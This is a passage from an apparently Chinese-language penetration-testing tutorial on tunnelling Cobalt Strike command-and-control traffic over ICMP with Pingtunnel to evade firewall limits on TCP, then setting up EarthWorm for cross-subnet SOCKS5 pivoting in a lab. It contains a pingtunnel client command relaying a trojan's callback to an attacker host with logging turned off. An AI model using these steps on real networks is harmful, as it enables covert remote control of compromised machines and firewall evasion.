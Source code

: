 #### 下载客户端

这里由于我操作的虚拟机是Windows，那么我只需要下载Windows的客户端即可，并且将客户端上传到目标主机上，其实这里好像是不分客户端和服务端的，只是使用的命令不同，所实现的功能就不同。

![image-20230530141039709](https://s2.loli.net/2023/06/06/OEws7TimKJYnX2L.png)

#### 设置CS连接

这里的CS监听器1主要是用于生成木马，我们如果生成的木马回连地址是我们的攻击机的地址，那么在TCP连接被限制的时候会直接运行不了，而且连接会直接被干掉，而我们设置回连地址是目标主机自己，那么这个连接就不会被防火墙限制。

![image-20230530141623977](https://s2.loli.net/2023/06/06/St2qbEQlJChPjzM.png)

CS监听器2主要是用于来监听信息，监听本地的2222端口。

![image-20230530141932112](https://s2.loli.net/2023/06/06/rVlC4Z2nYIXijcS.png)

#### 连接测试

木马生成就不在赘述了，和正常生成木马一样，注意需要使用监听器1来生成木马。

首先开启Pingtunnel的服务端模式，这里我也不再进行演示，然后运行客户端。

```
pingtunnel.exe -type client -l 127.0.0.1:5555 -s 192.168.10.20 -t 192.168.10.20:6666 -tcp 1 -noprint 1 -nolog 1
```

![image-20230530142545034](https://s2.loli.net/2023/06/06/nq7LhkCRdOU23lp.png)

然后这里就可以运行木马了，运行完就可以去CS上查看是否成功上线。

![image-20230530142628337](https://s2.loli.net/2023/06/06/eSW5gQcwDHzo8Zp.png)

至于数据转发，如果想查看也可以的，直接在界面中就能查看到。

![image-20230530142700277](https://s2.loli.net/2023/06/06/m1NC5JbOxEgzTUV.png)

### Pingtunnel跨网段演示

这里需要配合ew+pingtunnel组建socks5隧道，老版的pingtunnel好像是可以直接单独使用的，但是再新版的pingtunnel中需要配合ew来操作。

#### EarthWorm

EarthWorm是一款用于开启 SOCKS v5 代理服务的工具，基于标准 C 开发，可提供多平台间的转接通讯，用于复杂网络环境下的数据转发。

但是开发人员考虑到该工具影响很坏，已经永久停止更新了。

项目地址：[EarthWorm下载](https://github.com/idlefire/ew)

项目介绍：[earthworm介绍](http://rootkiter.com/EarthWorm/)

#### pingtunnel

这里我们就不演示如何下载客户端和服务端了，直接演示操作。

```
攻击机：192.168.10.20
Windows10：192.168.10.150
					 192.168.20.10
Windows7：192.168.20.20
```
